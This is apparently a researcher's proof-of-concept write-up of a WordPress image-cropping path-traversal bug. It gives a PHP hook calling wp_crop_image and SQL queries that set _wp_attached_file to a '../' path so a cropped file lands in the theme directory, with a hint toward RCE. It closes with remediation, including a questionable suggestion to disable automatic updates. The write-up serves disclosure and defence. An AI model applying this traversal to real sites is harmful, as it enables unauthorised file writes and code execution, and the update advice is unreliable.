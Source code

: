 # WordPress write image to any directory RCE

Image cropping in WordPress is sort of unlucky, specially derivation of final image path ( file system or http/s location ), where image will be loaded from the path, but decisions for additional directories creation and final path (no traversal prevention here) are taken from `_wp_attached_file`. Those issues are subject for deeper observation and debugging which will happen in the very near future, for now we need to get another conclusion.

## Eli5 PoC
- Upload image to your local WP and name it wpdeeply.png (in order to be able to use copy paste from here in next steps)
- Get attachment_id (post_id of the image)
- Enable hello.php plugin and add this code at the end of the file
```
function wprcedemo(){
    
    //add your attachment_id here - mine is 77
    $attachment_id = 77;
    
    if ( ! function_exists( 'wp_crop_image' ) ) {
        include ABSPATH . 'wp-admin/includes/image.php';
    }

    wp_crop_image($attachment_id, 0, 0, 300, 300, 300, 300);
    
    exit("good :)");
}

add_action("init", "wprcedemo");

```
- Open mysql administration tool and execute following query
```
UPDATE `wp_postmeta` SET `meta_value` =  concat('2020/07/wpdeeply.png#/','boom.png' ) WHERE `wp_postmeta`.`meta_key` = '_wp_attached_file' and `wp_postmeta`.`post_id` = 77
```
- Refresh the home page (good :) should be printed) and under `2020/07` there should be new directory `wpdeeply.png#`
- Open mysql administration tool and execute following query
```
UPDATE `wp_postmeta` SET `meta_value` = concat('2020/07/wpdeeply.png#/../../../../themes/twentytwenty/boom.png' ) WHERE `wp_postmeta`.`meta_key` = '_wp_attached_file' and `wp_postmeta`.`post_id` = 77
``` 
- Refresh the home page (good :) should be printed) and under `twentytwenty` theme should be `cropped-boom.png` file
- `_wp_page_template` meta_value away from RCE 

## Few facts
- WordPress allows files with valid image extension and any content in it (not complete security patches from the past)
- This bug is also part of not complete security patch in the past
- `_wp_attached_file` value becomes holy grail of WordPress security and still there are ways to interfere with it (via core)
- WP core via its site-health push users to install/configure WP in that way so core files are writable by web server

## Remediation
- Core files shouldn't be writable by www-data user
- Theme files shouldn't be writable by www-data user too 
- Turn automatic updates for WP core, plugins, themes OFF
